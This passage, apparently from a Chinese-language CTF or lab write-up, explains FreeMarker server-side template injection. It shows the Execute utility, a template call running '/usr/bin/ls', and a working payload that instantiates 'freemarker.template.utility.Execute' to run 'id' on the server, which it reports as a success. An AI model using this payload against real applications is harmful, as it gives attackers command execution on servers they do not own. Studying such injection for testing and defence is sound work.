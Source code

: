 ```
SimpleHash root = new SimpleHash();

 root.put( "exec", **new freemarker.template.utility.Execute()** );
```

我们可以看到语法是如何工作的。

```
The following is executed:
 ${exec( "/usr/bin/ls" )}
```

如果你不想经历这一切，有一个很好的演练，解释如何执行 Freemaker 模板上的代码。

[](https://ackcent.com/in-depth-freemarker-template-injection/) [## 深度 Freemarker 模板注入- Ackcent

### 在最近的一次参与中，我们的 AppSec 团队遇到了一个有趣的例子，在…

ackcent.com](https://ackcent.com/in-depth-freemarker-template-injection/) 

有效载荷

```
<#assign ex="freemarker.template.utility.Execute"?new()> ${ex("id")}
```

![](img/9ba8b34795f947a53c9f0aa2afa2e2b9.png)

成功

让我们完成任务。

